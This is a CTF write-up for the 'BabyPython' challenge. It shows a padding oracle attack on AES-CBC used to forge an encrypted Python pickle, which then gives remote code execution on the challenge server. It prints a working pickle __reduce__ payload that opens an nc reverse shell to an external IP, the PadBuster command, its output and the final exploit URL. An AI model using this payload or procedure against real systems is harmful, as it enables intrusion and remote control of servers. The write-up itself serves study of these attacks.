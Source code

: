 # BabyPython - "1 CAT COMPANY CTF" crypto and deserialization challenge



On the [1 CAT COMPANY CTF](https://2021.ctf.cyhub.am/) we didn't manage to finalize our solution for the [BabyPython challenge](http://baby.2021.ctf.cyhub.am/), created by [Vahe Karapetyan](https://twitter.com/k3mmio), but one of our team members - [Varik Matevosyan](https://twitter.com/D4RK7ET), solved it anyways after the time was up.
<!--more-->


Below is his write-up, enjoy!

### Analyzing the challenge
One of the most interesting and difficult challenges on the [1Cat CTF](https://2021.ctf.cyhub.am/) was the ["Baby Python"](http://baby.2021.ctf.cyhub.am/).
In the challenge description we find a URL and a python file to download:
```
endpoint: http://baby.2021.ctf.cyhub.am/
files: https://2021.ctf.cyhub.am/materials/securepickle.py
```

Let's first check the website. When we open the page we can see that each time it is giving us a random string. e.g.
![random string](random.jpg "random string")


After taking a look at the provided source code we see this a crypto challenge:
```python
import base64
import pickle

from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto.Random import get_random_bytes

class AESCipher:
    def __init__(self, key):
        self.key = pad(key.encode('utf-8'), AES.block_size)

    def encrypt(self, data):
        iv = get_random_bytes(AES.block_size)
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return base64.b64encode(iv + self.cipher.encrypt(pad(data, AES.block_size)))

    def decrypt(self, data):
        raw = base64.b64decode(data)
        self.cipher = AES.new(self.key, AES.MODE_CBC, raw[:AES.block_size])
        return unpad(self.cipher.decrypt(raw[AES.block_size:]), AES.block_size)


class SecurePickle:
    """Baby Devloper wanted to secure the pickle. Since it's not secure. Absolutely. Let's Encrypt"""

    def __init__(self, key):
        self.key = key
        self.encryptor = AESCipher(key)

    def loads(self, pickled_string):
        decrypted_string = self.encryptor.decrypt(pickled_string)
        return pickle.loads(decrypted_string)

    def dumps(self, object_to_pickle):
        encrypted_string = self.encryptor.encrypt(object_to_pickle)
        return encrypted_string

    def dumps2(self, object_to_pickle):
        pickled_string = pickle.dumps(object_to_pickle)
        encrypted_string = self.encryptor.encrypt(pickled_string)
        return encrypted_string
```

### Python pickle
So the `SecurePickle` class is for loading decrypted pickles and for dumping encrypted ones. As eval is evil so is the pickle. So if we will be able to pass our payload to `pickle.loads` method it will execute our code.
But we have 2 problems before moving forward:
- Where is the endpoint accepting user input and passing it into the `pickle.loads` sink?
- And the second one is that the strings are encrypted with CBC encryption, so we need a key to construct our payload, or do we?

The first problem was solved pretty easily, we just ran a directory fuzzer, found `/loads` endpoint, then ran [param miner](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) and found out that it accepts `?obj=` query parameter. Passing any encrypted string we got previously from the request to website root `http://baby.2021.ctf.cyhub.am/`, the page responds with a plaintext string `test!`.
```
http://baby.2021.ctf.cyhub.am/loads?obj=x+u/CzCbuoRHIkNhAuvVYcTZrfVsq1zgSKxYfguM8UYpgwVPQAOMxvBfgwkIh7vz
```

We can consider that this method decrypts the CBC message and passes it to `pickle.loads` function, so this surely is the source.

### Padding oracle attack

As the first problem is solved, let's find out whether or not we can construct a payload that will be decrypted by the server. After some googling, we found out that CBC encryption is vulnerable to **Padding oracle attacks** if it is padded by a random IV, which is true in this case.

Here are some resources that helped us understand the attack:
- https://www.youtube.com/watch?v=aH4DENMN_O4
- https://www.youtube.com/watch?v=7XZdsR0jHjo
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/02-Testing_for_Padding_Oracle

TL;DR - an attacker can encrypt an arbitrary message without knowing the encryption key and that's what we needed.

### PadBuster
During further research, we also found a ready-to-go exploit by [Aon’s Cyber Labs](https://www.aon.com/cyber-solutions/aon_cyber_labs/) - [PadBuster](https://github.com/AonCyberLabs/PadBuster) which is a Perl script that will automatically exploit the vulnerable server after passing some required arguments to it.
```BASH
padBuster.pl <URL> EncryptedSample BlockSize(16) -error 'PKCS#7 padding is incorrect.' -encodedtext 'our payload with malicious code'
```

### Exploit
To generate the proper payload we should dump a string with pickle and encode it with base64:
```python
import pickle
import base64
import os

class Payload:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 54.212.140.241 4444 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(Payload())
    print(base64.urlsafe_b64encode(pickled))
```

This will open a reverse shell to our remote server at `54.212.140.241`.

So the final arguments for the script will be:
```BASH
perl padBuster.pl 'http://baby.2021.ctf.cyhub.am/loads?obj=X4Dpl9XXEOf5zaa3hyTFcfOkfxIFQ9BfgIwkuA3KNBu85ZOKRM1U4rIkEbxYL0qI' X4Dpl9XXEOf5zaa3hyTFcfOkfxIFQ9BfgIwkuA3KNBu85ZOKRM1U4rIkEbxYL0qI 16 -error "PKCS#7 padding is incorrect." -encodedtext 'gASVbAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFFybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyA1NC4yMTIuMTQwLjI0MSA0NDQ0ID4vdG1wL2aUhZRSlC4='
```

After running the script and waiting about 30-40 minutes we get our encrypted message:
```
Block 1 Results:
[+] New Cipher Text (HEX): ade7fd36447b7b059ad590bb4f94df60
[+] Intermediate Bytes (HEX): 2de3685a447b7b059ad590374ae4b013

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: ref9NkR7ewWa1ZC7T5TfYOMRK%2Fvi1bbhFMwDF52RGJo4VO%2FGV8i6LzWQOb4Xt6RPCE5u6tK79BOyMuPZKNb7eZHoMW8PLbFKu9ffqe3UqBZ3Ku5sqqvKIi0hr0yuSzIRB79ewBeca95BfXrZBXDUa83MgM9NNqc80d2pKODxcjYAAAAAAAAAAAAAAAAAAAAA
-------------------------------------------------------
```

Now let's set a Netcat listener at port 4444 `nc -l 4444` and pass the payload to the server:
```
http://baby.2021.ctf.cyhub.am/loads?obj=ref9NkR7ewWa1ZC7T5TfYOMRK%2Fvi1bbhFMwDF52RGJo4VO%2FGV8i6LzWQOb4Xt6RPCE5u6tK79BOyMuPZKNb7eZHoMW8PLbFKu9ffqe3UqBZ3Ku5sqqvKIi0hr0yuSzIRB79ewBeca95BfXrZBXDUa83MgM9NNqc80d2pKODxcjYAAAAAAAAAAAAAAAAAAAAA
```

As soon as the page is opened we get our reverse shell and reading the environment variables, we find the long-awaited flag:
![success](success.jpeg "FLAG=cyhub{0244a2ac3d93327dbf77c19a36ef4851000000000}")


